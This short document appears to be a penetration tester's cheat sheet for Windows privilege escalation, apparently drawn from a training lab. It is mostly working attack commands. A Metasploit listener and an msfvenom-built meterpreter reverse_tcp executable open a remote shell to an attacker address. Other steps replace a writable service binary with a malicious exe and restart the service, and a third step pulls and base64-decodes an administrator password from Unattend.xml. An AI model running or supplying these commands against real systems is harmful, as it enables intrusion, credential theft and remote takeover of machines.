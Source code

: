 Metasploit: 	
		msfconsole 
		use multi/handler
		set payload windows/meterpreter/reverse_tcp
		set lhost <IP>
		run
		msfvenom -p windows/meterpreter/reverse_tcp lhost=<IP> -f exe -o program.exe

Exe file service escalation:
		C:\Users\User\Desktop\Tools\Accesschk\accesschk64.exe -wvu "C:\Program Files\File Permissions Service"

		copy /y c:\Temp\x.exe "c:\Program Files\File Permissions Service\filepermservice.exe"

		sc start filepermsvc
Configuration File:
		notepad C:\Windows\Panther\Unattend.xml
		Scroll down to the “<Password>” property and copy the base64 string that is confined between the “<Value>” tags underneath it. 
		echo [copied base64] | base64 -d
